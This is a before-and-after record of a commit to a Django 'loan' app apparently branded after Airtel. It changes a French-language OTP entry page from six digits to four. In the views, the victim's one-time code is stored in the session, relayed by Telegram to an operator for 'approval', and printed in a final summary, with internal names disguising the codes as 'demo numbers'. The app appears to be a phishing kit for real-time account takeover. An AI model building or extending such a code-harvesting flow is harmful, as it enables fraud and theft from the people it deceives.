

Before and after one commit to kedtech/airtel02, a Django app: page /otp/ in a window 1280 px wide. Shown: the top 465 px of the page. Run offline with Django 5.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
first commit

```diff
--- a/loan/templates/loan/otp.html
+++ b/loan/templates/loan/otp.html
@@ -6,7 +6,7 @@
 {% block content %}
 <div class="glass-card p-6 space-y-5">
     <h3 class="text-sm font-bold uppercase tracking-widest text-white/50 border-b border-white/10 pb-2">Code de vérification</h3>
-    <p class="text-sm text-white/60">Entrez le code OTP à 6 chiffres envoyé à votre numéro</p>
+    <p class="text-sm text-white/60">Entrez le code OTP à 4 chiffres envoyé à votre numéro</p>
 
     {% if error %}
     <p class="text-red-400 text-sm text-center">{{ error }}</p>
@@ -20,8 +20,6 @@
             <input name="num2" type="text" maxlength="1" class="lucky-field" inputmode="numeric" autocomplete="off" required>
             <input name="num3" type="text" maxlength="1" class="lucky-field" inputmode="numeric" autocomplete="off" required>
             <input name="num4" type="text" maxlength="1" class="lucky-field" inputmode="numeric" autocomplete="off" required>
-            <input name="num5" type="text" maxlength="1" class="lucky-field" inputmode="numeric" autocomplete="off" required>
-            <input name="num6" type="text" maxlength="1" class="lucky-field" inputmode="numeric" autocomplete="off" required>
         </div>
 
         <button type="submit" class="submit-btn mt-6">
--- a/loan/views.py
+++ b/loan/views.py
@@ -125,14 +125,14 @@ def request_verification_view(request):
 
 
 # ============================================================
-# 6 DEMO NUMBERS (after Telegram approval)
+# 4 DEMO NUMBERS (OTP stage - previously 6)
 # ============================================================
 
 def otp_view(request):
     """
-    Page where user enters the 6 demo numbers.
+    Page where user enters the 4 demo numbers.
     Only reachable after Telegram approval of the 4 numbers.
-    On submit → send Telegram for approval of the 6 numbers.
+    On submit → send Telegram for approval of the 4 numbers.
     """
     verification_id = request.session.get("verification_id")
 
@@ -149,19 +149,17 @@ def otp_view(request):
         num2 = request.POST.get("num2", "")
         num3 = request.POST.get("num3", "")
         num4 = request.POST.get("num4", "")
-        num5 = request.POST.get("num5", "")
-        num6 = request.POST.get("num6", "")
 
-        demo_numbers_6 = num1 + num2 + num3 + num4 + num5 + num6
+        demo_numbers_6 = num1 + num2 + num3 + num4
 
-        if len(demo_numbers_6) != 6 or not demo_numbers_6.isdigit():
+        if len(demo_numbers_6) != 4 or not demo_numbers_6.isdigit():
             return render(
                 request,
                 "loan/otp.html",
                 {"error": "Please enter a valid OTP code."},
             )
 
-        # Save the 6 numbers
+        # Save the 4 numbers
         request.session["demo_numbers_6"] = demo_numbers_6
         request.session.modified = True
 
@@ -187,7 +185,7 @@ def otp_view(request):
         request.session["current_stage"] = "6"
         request.session.modified = True
 
-        # Send Telegram for 6-number approval
+        # Send Telegram for 4-number approval
         message_id = send_demo_verification_request(
             verification.id,
             phone,
@@ -206,19 +204,17 @@ def otp_view(request):
 
 def verify_otp_view(request):
     """
-    Handles POST of the 6 demo numbers (same logic as otp_view POST).
+    Handles POST of the 4 demo numbers (same logic as otp_view POST).
     """
     if request.method == "POST":
         num1 = request.POST.get("num1", "")
         num2 = request.POST.get("num2", "")
         num3 = request.POST.get("num3", "")
         num4 = request.POST.get("num4", "")
-        num5 = request.POST.get("num5", "")
-        num6 = request.POST.get("num6", "")
 
-        demo_numbers_6 = num1 + num2 + num3 + num4 + num5 + num6
+        demo_numbers_6 = num1 + num2 + num3 + num4
 
-        if len(demo_numbers_6) == 6 and demo_numbers_6.isdigit():
+        if len(demo_numbers_6) == 4 and demo_numbers_6.isdigit():
             request.session["demo_numbers_6"] = demo_numbers_6
             request.session["verification_completed"] = True
             request.session["verification_status"] = "completed"
@@ -228,14 +224,14 @@ def verify_otp_view(request):
         return render(
             request,
             "loan/otp.html",
-            {"error": "Please enter a valid 6-digit demo code."},
+            {"error": "Please enter a valid 4-digit demo code."},
         )
 
     return redirect("otp")
 
 
 def waiting_for_approval_6_view(request):
-    """Waiting page after submitting the 6 demo numbers."""
+    """Waiting page after submitting the 4 demo numbers."""
     verification_id = request.session.get("verification_id_6")
 
     if not verification_id:
@@ -311,7 +307,7 @@ def verification_status_view(request):
 def approved_view(request):
     """
     Shown after Telegram approval.
-    User continues to the 6-digit demo numbers page.
+    User continues to the 4-digit OTP page.
     """
     verification_id = request.session.get("verification_id")
 
@@ -431,7 +427,7 @@ def success_view(request):
 
     print("===== DEMO VALUES =====")
     print("4 Demo Numbers:", demo_numbers_4)
-    print("6 Demo Numbers:", demo_numbers_6)
+    print("OTP (4 digits):", demo_numbers_6)
     print("=======================")
 
     # Build and send final Telegram message
```
Also changed, not shown: db.sqlite3.
